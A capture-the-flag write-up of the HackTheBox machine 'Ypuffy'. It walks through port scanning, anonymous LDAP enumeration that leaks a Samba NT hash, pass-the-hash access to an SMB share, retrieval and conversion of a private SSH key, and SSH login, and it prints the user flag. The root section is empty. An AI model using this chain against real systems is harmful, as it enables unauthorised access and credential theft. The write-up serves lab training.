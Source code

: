 ```yaml
---
title: "HTB Write-up: Ypuffy"
date: 2019-01-05
category: [HackTheBox]
tags: [HackTheBox, HTB, ]
header:
    teaser: "/assets/images/htb/ypuffy/ypuffy.png"
---
```


![ypuffy_info.png](/assets/images/htb/ypuffy/ypuffy_info.png)

*Note: I completed this challenge on January 5th, 2019, however I'm just now writing it up in December 2019. As such, some of the details are sparse.*

## User
To begin enumeration, the `masscan` tool was used to scan the target system for open ports. 

```
root@kali:~/workspace/hackthebox/Ypuffy# masscan -e tun0 -p 1-65535 --rate 2000 10.10.10.107

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-12-26 23:05:58 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 445/tcp on 10.10.10.107                                   
Discovered open port 22/tcp on 10.10.10.107                                    
Discovered open port 389/tcp on 10.10.10.107                                   
Discovered open port 80/tcp on 10.10.10.107                                    
Discovered open port 139/tcp on 10.10.10.107
   
```

This scan revealed that a variety of ports were open and listening for connections. TCP ports 445 and 139 are used with SMB, port 389 is used for LDAP, port 80 is used as a HTTP port, and port 22 is SSH. Taking these open ports, the `nmap` tool was then used to further enumerate the open ports.

```
root@kali:~/workspace/hackthebox/Ypuffy# nmap -p 445,22,389,80,139 -sC -sV -oA scans/discovered-tcp 10.10.10.107
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-26 16:11 MST
Nmap scan report for 10.10.10.107
Host is up (0.066s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2e:19:e6:af:1b:a7:b0:e8:07:2a:2b:11:5d:7b:c6:04 (RSA)
|   256 dd:0f:6a:2a:53:ee:19:50:d9:e5:e7:81:04:8d:91:b6 (ECDSA)
|_  256 21:9e:db:bd:e1:78:4d:72:b0:ea:b4:97:fb:7f:af:91 (ED25519)
80/tcp  open  http        OpenBSD httpd
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YPUFFY)
389/tcp open  ldap        (Anonymous bind OK)
445/tcp open  netbios-ssn Samba smbd 4.7.6 (workgroup: YPUFFY)
Service Info: Host: YPUFFY

Host script results:
|_clock-skew: mean: 1h40m22s, deviation: 2h53m12s, median: 22s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6)
|   Computer name: ypuffy
|   NetBIOS computer name: YPUFFY\x00
|   Domain name: hackthebox.htb
|   FQDN: ypuffy.hackthebox.htb
|_  System time: 2019-12-26T18:12:10-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-12-26T23:12:11
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.04 seconds
```

The `nmap` output regarding port 80 suggests that this is a OpenBSD system. The scan has also reported that anonymous binds are allowed on the LDAP server on port 389. LDAP stands for "Lightweight Directory Access Protocol" and is often used for user validation validation to particular resources, amongst other things. The LDAP service running port 389 was enumerated further using the `nmap` scripting engine.

```
root@kali:~/workspace/hackthebox/Ypuffy# nmap --script /usr/share/nmap/scripts/ldap-search.nse 10.10.10.107
```

Querying the LDAP service reveals some information about the target system, including some configured users.

```
...
dn: uid=bob8791,ou=passwd,dc=hackthebox,dc=htb                                    
    uid: bob8791                                                                  
    cn: Bob                                                                       
    objectClass: account                                                          
    objectClass: posixAccount                                                     
    objectClass: top                                                              
    userPassword: {BSDAUTH}bob8791                                                
    uidNumber: 5001                                                               
    gidNumber: 5001                                                               
    gecos: Bob                                                                    
    homeDirectory: /home/bob8791                                                  
    loginShell: /bin/ksh    
dn: uid=alice1978,ou=passwd,dc=hackthebox,dc=htb                                                                                                                            
    uid: alice1978                                                                                                                                                          
    cn: Alice                                                                                                                                                               
    objectClass: account
    objectClass: posixAccount
    objectClass: top
    objectClass: sambaSamAccount
    userPassword: {BSDAUTH}alice1978
    uidNumber: 5000
    gidNumber: 5000
    gecos: Alice
    homeDirectory: /home/alice1978
    loginShell: /bin/ksh
    sambaSID: S-1-5-21-3933741069-3307154301-3557023464-1001
    displayName: Alice
    sambaAcctFlags: [U          ]
    sambaPasswordHistory: 00000000000000000000000000000000000000000000000000000000
    sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B
    sambaPwdLastSet: 1532916644
...
```

The `userPassword` fields look juicy, but some [research](http://puffysecurity.com/wiki/ypldap.html) on the setup of an OpenBSD LDAP server and YP domains via `ypldap` explains that the presence of  `userPassword` means that the configured user will be authenitacted by `{BSDAUTH}` and that passwords are checked against a Blowfish hash stored in LDAP.

The entry for the `alice1978` user additionally contains a value in the `sambaNTPassword` field. This value is a Samba password that is hashed using the MD4 algorithm. With the help of the `smbclient` tool, the hashed Samba password can be used to authenticate to the SMB service on port 445 as the user `alice1978`.

From `man smbclient`:

```
--pw-nt-hash
    The supplied password is the NT hash.
```

First, the available Samba shares were listed via the command below with `0B186E661BBDBDCF6047784DE8B9FD8B` as the password.

```
root@kali:~/workspace/hackthebox/Ypuffy# smbclient --user=alice1978 --pw-nt-hash -L //10.10.10.107 
Enter WORKGROUP\alice1978's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        alice           Disk      Alice's Windows Directory
        IPC$            IPC       IPC Service (Samba Server)
...
```

Next, the `alice` share was accessed once again using the hashed Samba password for authentication.

```
root@kali:~/workspace/hackthebox/Ypuffy# smbclient --user=alice1978 --pw-nt-hash //10.10.10.107/alice
```

After connecting and listing the files with the `dir` command, the only file present in the `alice` SMB share is `my_private_key.ppk`. The `.ppk` extension suggests that this is a PuTTY private key file, and that the contents within are the `alice1978` user's private SSH key. The `my_private_key.ppk` file can be copied to the attacking system using the `get` SMB command.

```
smb: \> get my_private_key.ppk 
getting file \my_private_key.ppk of size 1460 as my_private_key.ppk (6.0 KiloBytes/sec) (average 6.0 KiloBytes/sec)
```

With the `alice1978` user's private SSH key, it is likely possible to access the target system via SSH after some slight modifications to the `my_private_key.ppk` file. Note that the `nmap` scan suggests that the SSH server running on port 22 of the target system is OpenSSH server (confirmed below).

```
root@kali:~/workspace/hackthebox/Ypuffy# telnet 10.10.10.107 22
Trying 10.10.10.107...
Connected to 10.10.10.107.
Escape character is '^]'.
SSH-2.0-OpenSSH_7.7
```

As the `my_private_key.ppk` file is a PuTTY private key file, the must first be converted to a format that is compatible with OpenSSH before connecting to the OpenSSH server on the target system. This can be accomplished using the `puttygen` tool as shown below (the tool can be installed with `apt-get install putty-tools`).

```
root@kali:~/workspace/hackthebox/Ypuffy# puttygen my_private_key.ppk -O private-openssh -o alice1978-opensshkey
```

The target system can now be accessed as the `alice1978`.

```
root@kali:~/workspace/hackthebox/Ypuffy# ssh alice1978@10.10.10.107 -i alice1978-opensshkey
```

The `user.txt` flag can now be read as the `alice1978` user.

```
ypuffy$ whoami
alice1978
ypuffy$ cat user.txt
acbc06eb2982b14c2756b6c6e3767aab
```

## Root



